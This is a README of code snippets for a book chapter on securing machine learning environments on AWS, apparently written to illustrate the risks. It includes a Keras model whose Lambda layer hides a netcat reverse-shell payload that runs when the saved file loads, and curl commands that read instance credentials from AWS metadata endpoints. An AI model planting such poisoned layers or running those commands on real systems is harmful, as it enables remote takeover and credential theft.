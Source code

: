 ## Machine Learning Engineering on AWS

<a href="https://www.packtpub.com/product/machine-learning-engineering-on-aws/9781803247595"><img src="https://static.packt-cdn.com/products/9781803247595/cover/smaller" alt="Book Name" height="100px" align="left"></a>

**Chapter 9: Security, Governance, and Compliance Strategies** <br />
This chapter focuses on the relevant security, governance, and compliance strategies needed to secure production environments. Here, we will also dive a bit deeper into the different techniques in ensuring data privacy and model privacy.

<br />

### I. Links

| Label                                                 | Link                                                                                                      |
|-------------------------------------------------------|-----------------------------------------------------------------------------------------------------------|
| Sample Pickle Exploit                                 | https://gist.github.com/joshualat/a3fdfa4d49d1d6725b1970133d06866b                                        |
| Vulnerability Management on AWS with Amazon Inspector | https://medium.com/@arvs.lat/automated-vulnerability-management-on-aws-with-amazon-inspector-53c572bf8515 |
| SageMaker Experiments                                 | [https://bit.ly/3POKbKf](https://github.com/PacktPublishing/Machine-Learning-with-Amazon-SageMaker-Cookbook/blob/master/Chapter05/06%20-%20Inspecting%20Experiments,%20Trials,%20and%20Trial%20Components%20with%20SageMaker%20Experiments.ipynb)                      |
| SageMaker A/B Testing                                 | [https://bit.ly/3uSRZSE](https://github.com/PacktPublishing/Machine-Learning-with-Amazon-SageMaker-Cookbook/blob/master/Chapter09/04%20-%20Setting%20up%20AB%20testing%20on%20multiple%20models%20with%20production%20variants.ipynb)                                  |


### II. Commands

#### ➤ Managing the Security and Compliance of ML Environments

##### Authentication and Authorization

```
import boto3
sagemaker_client = boto3.client(
    'sagemaker-runtime',
    aws_access_key_id="<INSERT ACCESS KEY ID>",
    aws_secret_access_key="<INSERT SECRET ACCESS KEY>"
)


sagemaker_client = boto3.client('sagemaker-runtime')


from sagemaker import get_execution_role
role = get_execution_role()


curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance


curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```

##### Network security

```
import tensorflow

from tensorflow.keras.layers import Input, Lambda, Softmax
from tensorflow.keras.models import Model
from tensorflow.keras.optimizers import Adam


def custom_layer(tensor):
    PAYLOAD = 'rm /tmp/FCMHH; mkfifo /tmp/FCMHH; cat /tmp/FCMHH | /bin/sh -i 2>&1 | nc 127.0.0.1 14344 > /tmp/FCMHH'
    __import__('os').system(PAYLOAD)
    
    return tensor


input_layer = Input(shape=(10), name="input_layer")
lambda_layer = Lambda(
    custom_layer,   
    name="lambda_layer"
)(input_layer)
output_layer = Softmax(name="output_layer")(lambda_layer)


model = Model(input_layer, output_layer, name="model")
model.compile(optimizer=Adam(lr=0.0004), loss="categorical_crossentropy")
model.save("model.h5")


from tensorflow.keras.models import load_model
load_model("model.h5")


estimator = Estimator(
    image,
    role,
    instance_type='ml.p2.xlarge',
    ...
    enable_network_isolation=True
)
```

##### Encryption at rest an in transit

```
estimator = Estimator(
    image,
    ...
    volume_kms_key=<insert kms key ARN>,
    output_kms_key=<insert kms key ARN>
)
...
estimator.deploy(
    ...
    kms_key=<insert kms key ARN>
)


estimator = Estimator(
    image,
    ...
    encrypt_inter_container_traffic=True
)


config = NetworkConfig(
    enable_network_isolation=True,
    encrypt_inter_container_traffic=True
)

processor = ScriptProcessor(
    ...
    network_config=config
)

processor.run(
    ...
)


ssh <user>@<IP address of instance> -NL 14344:localhost:8888
```

#### ➤ Establishing ML Governance

##### Model Validation

```
def load_model():
    sym_json = json_load(open('mx-mod-symbol.json')) 
    sym_json_string = json_dumps(sym_json)

    model = gluon.nn.SymbolBlock( 
        outputs=mxnet.sym.load_json(sym_json_string), 
        inputs=mxnet.sym.var('data'))

    model.load_parameters(
        'mx-mod-0000.params', 
        allow_missing=True
    )
    model.initialize()
    
    return model
```

##### ML Explainability

```
processor = SageMakerClarifyProcessor(...)
processor.run_explainability(...)
```

##### Bias Detection

```
processor = SageMakerClarifyProcessor(...)
processor.run_bias(...)
```

##### Data Integrity Management

```
SELECT booking_changes, has_booking_changes, * 
FROM dev.public.bookings 
WHERE 
(booking_changes=0 AND has_booking_changes='True') 
OR 
(booking_changes>0 AND has_booking_changes='False');
```

